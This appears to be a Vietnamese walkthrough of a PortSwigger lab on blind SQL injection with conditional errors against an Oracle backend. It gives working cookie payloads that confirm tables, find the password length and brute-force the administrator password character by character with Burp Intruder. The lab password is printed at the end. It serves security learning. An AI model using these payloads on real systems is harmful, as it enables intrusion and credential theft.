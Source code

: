 # Lab: Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:
 
`SQL injection with conditional errors` là kỹ thuật này khác với các cuộc tấn công SQL Injection thông thường ở chỗ nó không trực tiếp trả về kết quả của câu lệnh SQL độc hại, mà sử dụng các lỗi điều kiện để xác định kết quả của truy vấn SQL bằng cách đưa ra các câu hỏi `True` hay `False`

Query được sử dụng trong lab

```
SELECT trackingID FROM someTable WHERE trackingID = '<COOKIE-VALUE'>
```

Mình sẽ bỏ qua hoàn toàn content của cookie từ bây giờ và chỉ cung cấp chuỗi được thêm vào giá trị TrackingId.

Bài này mình làm 2 cách `sqlmap` và `Portswigger`

# Solution:

# PortSwigger:

Kiểm tra `TrackingID` cookie bằng cookie editor. Thêm kí tự `'` thì gây ra lỗi

![image](https://user-images.githubusercontent.com/115911041/234747603-d319fdfc-f2f3-4847-b3fb-01ee3c4b0d6f.png)

Bởi vì loại lỗ hổng này, chúng ta không thể thấy bấy kì kết quả nào của query cũng như sự khác biệt ở output. Tuy nhiên, nếu ta có thể tạo ra các requests gây ra lỗi database, ta có thể suy ra giả trị thật dựa trên việc lỗi có hiển thị ra hay không.

Vậy bước đầu ta cần xác định tham số nào là lỗ hổng bằng cách tạo ra các request mà đưa ra câu trả lời `normal` hoặc `error`.

Inject 1 kí tự `'` tạo ra `server error`, inject 2 kí tự `'` thì không xảy ra. Điều này cho thấy khả năng SQLi, vì thề mình thử vài payload:

`'||(SELECT+null||'` cũng cho ra lỗi, tuy nhiến nếu là  `'||(SELECT+null+FROM_dual)||'` thì không. Vì thế database đang sử dụng là Oracle DB.

***Toán tử `||` cho phép nối chuỗi dữ liệu và kết quả truy vấn. `()` được sử dụng để nhóm các điều kiện hoặc phép tính lại với nhau.***

## TÌm lệnh 'normal' và 'error'

Dựa vào `cheat sheet` mà Lab cung cấp, một ví dụ về conditional error 

`SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FORM DUAL`

Với `normal` query, chúng ta lấy `input` là `FLASE`, dó đó nó không xảy ra lỗi `divison by zero`

```
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

Content của cookie cho `normal` case được cho ra một trang web `normal`:

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Trường hợp `error` có condition được cho là true, do đó khiến cho databse thực hiện `division by zero` dẫn đến `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Giờ chúng ta đã có cách phân biệt kết quả của boolean condition.

## Xác định database table và columns

Bước tiếp theo là xác định table `users` có thật sự tồn tại ở trong database. Với cái này, mình sử dụng database version oracle giới hạn lượng row output:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

Nó cho thấy trang web, xác định đó là query hợp lệ và cũng như table name và cả column names đều hợp lệ.

## Xác định user tồn tại trong database

Để gây ra lỗi, chúng ta mở rộng ví dụ bằng cách thực hiện `division by zero` nếu tên người dùng không tồn tại. Câu lệnh này gây ra `internal server error`, chĩ ra rằng query này dẫn đến `division by zero`

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Thay đổi username thành một giá trị tùy ý, page được hiển thị. Điều này xác định rằng điều kiện `1=1` và `division by zero` phụ thuộc vào việc `FROM users WHERE...`  một phần trả về thứ gì đó.

Điều này xác định `administrator` tồn tại trong database.

## Xác định chiều dài của password

Xác định chiều dài rất dễ dàng bằng cách sử dụng hàm `LENGTH` ở cuối câu điều kiện SQL.

```
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'
```

Sẽ hiển thị ra page, chỉ ra rằng kcheck `1=1`  chưa bào giờ được thực hiện. Sử dụng Burp Intruder, mình kiểm tra các số từ 1 đến 50. Và đây là kết quả:

![image](https://user-images.githubusercontent.com/115911041/234764891-1bee6f68-254a-497e-8724-b0c7a15c0818.png)

Password có độ dài là 20

## Liệt kê password của administrator

Bây giờ ta đã có độ dài của password, ta có thể brute force mỗi kí tự.

```
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'
```

![image](https://user-images.githubusercontent.com/115911041/234771778-bf4cc7ce-115e-4f39-b730-430e28cd716a.png)

Attack type : ***Cluster bomb***

Payload 1: numeric (1..20)

Payload 2: brute force

![image](https://user-images.githubusercontent.com/115911041/234780110-868eeb9d-24a2-48b1-a425-675662867d78.png)

`Password: cdqdx99j8s0srlhmnjq8`

![image](https://user-images.githubusercontent.com/115911041/234780398-d96fd0c5-909d-4f1e-aa4b-5791c3fcb72f.png)

